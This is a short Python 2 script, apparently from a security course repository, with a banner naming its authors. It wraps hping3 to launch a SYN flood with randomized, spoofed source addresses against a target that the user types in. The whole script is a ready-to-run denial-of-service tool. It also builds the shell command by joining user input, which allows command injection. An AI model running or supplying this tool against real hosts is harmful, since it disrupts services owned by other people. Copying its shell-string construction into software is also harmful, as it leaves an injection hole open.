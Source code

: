 # practical_security_2

# hping3 python script

import subprocess
import sys

#*********************************************************************************
print"************************CR3ATED BY THE DR3@M T3AM********************************"
print"*************************@simatech Nyasha Simango********************************"
print"************************* @Mtape Kudzai S Kangwende******************************"
print"*************************@zapiro Anesu     Chiodza*******************************"
print"*************************@dutch Tsitsi H Sithole*********************************"
print"*************************@v!nx Vincent F Munhuweyi*******************************"


target=raw_input("Input Target Machine ")
packet=raw_input("Input Packet Size ")
network=raw_input("Input Interface [e] Ethernet , [w] Wireless ")

value=ord(network)
interface=""
if (value==101):
    interface="eth0"
    
elif (value==119):
    interface="wlan0"
    
if (value==69 ):
    interface="eth0"
    
elif (value==87):
    interface="wlan0"

else:
    interface="wlan0"




hping3mod = "hping3 -S -V --flood -d "+packet +" --interface "+interface +" --rand-source "+target  

p = subprocess.Popen(hping3mod, shell=True, stderr=subprocess.PIPE)
while True:
    out = p.stderr.read(1)
    if out == '' and p.poll() != None:
        break
    if out != '':
        sys.stdout.write(out)
        sys.stdout.flush()
